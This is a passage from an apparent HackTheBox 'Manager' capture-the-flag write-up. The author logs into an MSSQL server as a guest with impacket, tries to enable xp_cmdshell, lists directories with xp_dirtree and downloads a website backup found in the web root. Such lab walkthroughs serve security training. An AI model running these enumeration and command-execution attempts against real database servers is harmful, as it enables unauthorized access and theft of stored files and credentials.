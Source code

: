 ```bash
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
    
SQL (MANAGER\Operator  guest@master)> enable_xp_cmdshell
ERROR: Line 1: You do not have permission to run the RECONFIGURE statement.
```

It's working with `impacket-mssqlcient`. 
But `xp_cmdshell` command is not working. I tried `enable_xp_cmdshell`, but it was not allowed.
Let's try with different command `xp_dirtree`.

```sql
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   
Documents and Settings          1      0   
inetpub                         1      0   
PerfLogs                        1      0   
Program Files                   1      0   
Program Files (x86)             1      0   
ProgramData                     1      0   
Recovery                        1      0   
SQL2019                         1      0   
System Volume Information       1      0   
Users                           1      0   
Windows                         1      0   

SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1
```

Since the file is located on the same folder with web source files, I think we can directly access to this file through http(80) method.
Let's download the backup file and see what's in it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wget http://manager.htb/website-backup-27-07-23-old.zip
--2024-11-28 06:59:27--  http://manager.htb/website-backup-27-07-23-old.zip
Resolving manager.htb (manager.htb)... 10.10.11.236
Connecting to manager.htb (manager.htb)|10.10.11.236|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1045328 (1021K) [application/x-zip-compressed]
Saving to: ‘website-backup-27-07-23-old.zip’

website-backup-27- 100%[===============>]   1021K   234KB/s    in 6.6s    

2024-11-28 06:59:34 (154 KB/s) - ‘website-backup-27-07-23-old.zip’ saved [1045328/1045328]


```